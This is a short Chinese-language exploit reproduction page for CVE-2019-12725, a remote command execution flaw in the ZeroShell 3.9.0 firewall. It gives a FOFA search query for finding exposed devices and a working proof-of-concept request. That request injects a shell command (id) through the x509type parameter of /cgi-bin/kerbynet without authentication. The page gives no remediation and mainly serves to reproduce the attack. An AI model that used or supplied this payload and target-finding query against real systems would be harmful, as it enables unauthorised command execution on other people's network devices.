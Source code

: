 # ZeroShell 3.9.0 远程命令执行漏洞 CVE-2019-12725

## 漏洞描述

ZeroShell 3.9.0 存在命令执行漏洞，/cgi-bin/kerbynet 页面，x509type 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

<a-checkbox checked>ZeroShell < 3.9.0</a-checkbox></br>

## FOFA

<a-checkbox checked>app="Zeroshell-防火墙"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/zm-2.png)



验证的POC为



```plain
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0Aid%0A%27
```



![img](../../../.vuepress/public/img/zm-1.png)



若有收获，就点个赞吧